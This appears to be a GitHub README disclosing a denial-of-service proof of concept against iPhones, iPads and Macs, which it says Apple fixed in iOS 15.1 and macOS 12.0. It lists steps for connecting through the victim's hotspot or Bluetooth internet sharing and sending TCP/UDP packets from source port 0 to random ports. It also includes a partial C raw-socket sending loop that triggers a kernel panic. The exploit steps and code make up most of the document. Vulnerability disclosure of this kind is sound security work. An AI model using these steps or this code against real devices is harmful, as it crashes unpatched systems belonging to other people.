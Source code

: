 # PoC for iOS, macOS, iPadOS (DoS)

**Update: Apple has quietly fixed this in iOS(and iPadOS) 15.1 and macOS 12.0 without any kind of public acknowledgement or reward.**

## Issue
Kernel panic after send 2+ TCP/UDP packets by attacker device via apple device hotspot net to external network

## Steps
### iPhone, iPad
1) Switch into hotspot mode
2) Attacker connect to iPhone network
3) Attacker send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
4) Kernel panic
### iMac, Mac, MacBook
0) Require internet access on device
1) On "Internet sharing" (on Bluetooth PAN) on victim apple device
2) Bluetooth pair attacker and victim apple device
3) Attacker connect to internet via apple device
4) Attacket send 2+ TCP/UDP packet from source port 0 to different destination ports in external network.
5) Kernel panic



## Here is a short proof of concept.
We used raw sockets to form a custom package and send requests from port 0.

```с
...
    tcph->source = htons (0); //here we specify the output port 0
...
    while (1)
    {
        tcph->dest = htons (rand()); //here we specify the input port random
        if (sendto (s, datagram, iph->tot_len ,    0, (struct sockaddr *) &sin, sizeof (sin)) < 0)
        {
            perror("sendto failed");
        }
        else
        {
            printf ("Packet Send. Length : %d \n" , iph->tot_len);
        }
        sleep(1);
    }
...
```
After sending 2 packets(print "Packet Send..."), DoS is called and elf execution can be terminated.
